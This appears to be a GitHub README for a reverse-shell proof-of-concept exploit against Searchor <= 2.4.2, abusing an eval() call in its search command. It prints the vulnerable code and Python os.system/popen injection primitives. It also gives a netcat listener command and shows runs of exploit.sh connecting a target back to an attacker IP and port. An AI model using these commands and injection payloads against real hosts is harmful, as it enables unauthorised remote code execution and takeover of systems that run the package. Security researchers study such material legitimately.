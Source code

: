 
# POC exploit for Searchor <= 2.4.2 (2.4.0) (Arbitrary CMD Injection)
Reverse Shell POC exploit for **`Searchor <= 2.4.2 (2.4.0)`**

See for small details about the vulnerability [**here**](https://security.snyk.io/package/pip/searchor/2.4.0)

[**Link**](https://github.com/ArjunSharda/Searchor) for Github project of Searchor

## Small explanation
In file **`src/sarchor/main.py`** of **`Searchor <= 2.4.2`** there is a function call **`eval()`**:
```python
@click.argument("query")
def search(engine, query, open, copy):
    try:
        url = eval( # <<< See here 
            f"Engine.{engine}.search('{query}', copy_url={copy}, open_web={open})"
        )
        click.echo(url)
        searchor.history.update(engine, query, url)
        if open:
            click.echo("opening browser...")
	  ...
```
Which can provide the ability to execute arbitrary code using functions such as:
* `__import__('os').system('<CMD>')`
* `__import__('os').popen('<CMD>').read() `
* `etc`

## PoC

Run the netcat on your host:
``` 
$ nc -lvnp 9001
``` 

Run the exploit (example) with default port **`9001`** on attacker host:
``` 
$ ./exploit.sh site.com 10.10.14.122
---[Reverse Shell Exploit for Searchor <= 2.4.2 (2.4.0)]---
[*] Input target is site.com
[*] Input attacker is 10.10.14.122:9001
[*] Run the Reverse Shell... Press Ctrl+C after successful connection
```
Run the exploit (example) with the specified port **`1337`** on attacker host:
``` 
$ ./exploit.sh site.com 10.10.14.122 1337
---[Reverse Shell Exploit for Searchor <= 2.4.2 (2.4.0)]---
[*] Input target is site.com
[*] Input attacker is 10.10.14.122:1337
[*] Run the Reverse Shell... Press Ctrl+C after successful connection
```
